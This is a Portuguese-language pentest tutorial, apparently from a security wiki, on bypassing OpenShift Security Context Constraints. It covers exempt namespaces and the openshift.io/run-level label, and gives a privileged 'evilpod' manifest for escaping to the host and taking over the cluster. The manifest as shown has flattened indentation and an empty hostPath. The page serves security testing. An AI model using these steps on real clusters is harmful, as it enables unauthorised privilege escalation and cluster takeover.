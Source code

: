 # Openshift - SCC bypass

**O autor original desta página é** [**Guillaume**](https://www.linkedin.com/in/guillaume-chapela-ab4b9a196)

## Namespaces Privilegiados

Por padrão, o SCC não se aplica aos seguintes projetos:

- **default**
- **kube-system**
- **kube-public**
- **openshift-node**
- **openshift-infra**
- **openshift**

Se você implantar pods dentro de um desses namespaces, nenhum SCC será aplicado, permitindo a implantação de pods privilegiados ou a montagem do sistema de arquivos do host.

## Rótulo de Namespace

Há uma maneira de desativar a aplicação do SCC em seu pod de acordo com a documentação da RedHat. Você precisará ter pelo menos uma das seguintes permissões:

- Criar um Namespace e Criar um Pod neste Namespace
- Editar um Namespace e Criar um Pod neste Namespace
```bash
$ oc auth can-i create namespaces
yes

$ oc auth can-i patch namespaces
yes
```
A etiqueta específica `openshift.io/run-level` permite que os usuários contornem os SCCs para aplicativos. De acordo com a documentação da RedHat, quando essa etiqueta é utilizada, nenhum SCC é aplicado a todos os pods dentro desse namespace, removendo efetivamente quaisquer restrições.

<figure><img src="../../../images/Openshift-RunLevel4.png" alt=""><figcaption></figcaption></figure>

## Adicionar Etiqueta

Para adicionar a etiqueta no seu namespace:
```bash
$ oc label ns MYNAMESPACE openshift.io/run-level=0
```
Para criar um namespace com o rótulo através de um arquivo YAML:
```yaml
apiVersion: v1
kind: Namespace
metadata:
name: evil
labels:
openshift.io/run-level: 0
```
Agora, todos os novos pods criados no namespace não devem ter nenhum SCC

<pre class="language-bash"><code class="lang-bash"><strong>$ oc get pod -o yaml | grep 'openshift.io/scc'
</strong><strong>$
</strong></code></pre>

Na ausência de SCC, não há restrições na definição do seu pod. Isso significa que um pod malicioso pode ser facilmente criado para escapar para o sistema host.
```yaml
apiVersion: v1
kind: Pod
metadata:
name: evilpod
labels:
kubernetes.io/hostname: evilpod
spec:
hostNetwork: true #Bind pod network to the host network
hostPID: true #See host processes
hostIPC: true #Access host inter processes
containers:
- name: evil
image: MYIMAGE
imagePullPolicy: IfNotPresent
securityContext:
privileged: true
allowPrivilegeEscalation: true
resources:
limits:
memory: 200Mi
requests:
cpu: 30m
memory: 100Mi
volumeMounts:
- name: hostrootfs
mountPath: /mnt
volumes:
- name: hostrootfs
hostPath:
path:
```
Agora, tornou-se mais fácil escalar privilégios para acessar o sistema host e, subsequentemente, assumir todo o cluster, ganhando privilégios de 'cluster-admin'. Procure pela parte **Node-Post Exploitation** na página a seguir:

{{#ref}}
../../kubernetes-security/attacking-kubernetes-from-inside-a-pod.md
{{#endref}}

### Rótulos personalizados

Além disso, com base na configuração alvo, alguns rótulos / anotações personalizados podem ser usados da mesma forma que no cenário de ataque anterior. Mesmo que não seja feito para isso, rótulos podem ser usados para conceder permissões, restringir ou não um recurso específico.

Tente procurar por rótulos personalizados se você puder ler alguns recursos. Aqui está uma lista de recursos interessantes:

- Pod
- Deployment
- Namespace
- Service
- Route
```bash
$ oc get pod -o yaml | grep labels -A 5
$ oc get namespace -o yaml | grep labels -A 5
```
## Liste todos os namespaces privilegiados
```bash
$ oc get project -o yaml | grep 'run-level' -b5
```
## Exploit Avançado

No OpenShift, como demonstrado anteriormente, ter permissão para implantar um pod em um namespace com o rótulo `openshift.io/run-level` pode levar a uma tomada de controle direta do cluster. Do ponto de vista das configurações do cluster, essa funcionalidade **não pode ser desativada**, pois é inerente ao design do OpenShift.

No entanto, medidas de mitigação como **Open Policy Agent GateKeeper** podem impedir que os usuários definam esse rótulo.

Para contornar as regras do GateKeeper e definir esse rótulo para executar uma tomada de controle do cluster, **os atacantes precisariam identificar métodos alternativos.**

## Referências

- [https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html](https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html)
- [https://docs.openshift.com/container-platform/3.11/admin_guide/manage_scc.html](https://docs.openshift.com/container-platform/3.11/admin_guide/manage_scc.html)
- [https://github.com/open-policy-agent/gatekeeper](https://github.com/open-policy-agent/gatekeeper)
